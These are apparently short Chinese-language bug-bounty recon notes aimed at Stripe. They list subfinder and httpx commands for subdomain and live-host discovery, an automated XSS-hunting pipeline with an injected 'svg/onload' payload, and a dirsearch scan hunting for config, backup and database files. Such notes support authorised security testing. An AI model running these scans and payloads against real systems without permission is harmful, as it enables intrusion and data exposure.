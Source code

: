 <center>Stripe</center>





[toc]









## Stripe

>  Stripe 实现线上线下支付共通.
>
>  [stripe](https://stripe.com/)  [youtube](https://www.youtube.com/watch?v=X44t8tCXivI)
>
>  paylodebox: [github](https://github.com/payloadbox)
>
>  快速发现漏洞： [blog](https://gugesay.com/archives/1186)









### 1. 子域名收集

```shell
subfinder -d stripe.com -all -recursive > subdomain.txt

# 查看存活主机
cat subdomain.txt | httpx-toolkit -mc 200 -o livehosts.txt

# 存在xss
subfinder -d stripe.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"onclick=prompt(7)><svg/onload=prompt(7)>"@x.y' -parameters  

# 目录扫描
dirsearch -u https://www.stripe.com -e conf,config,backup,bak,old,db,sql,asp,aspx,php,zip  
# 
```

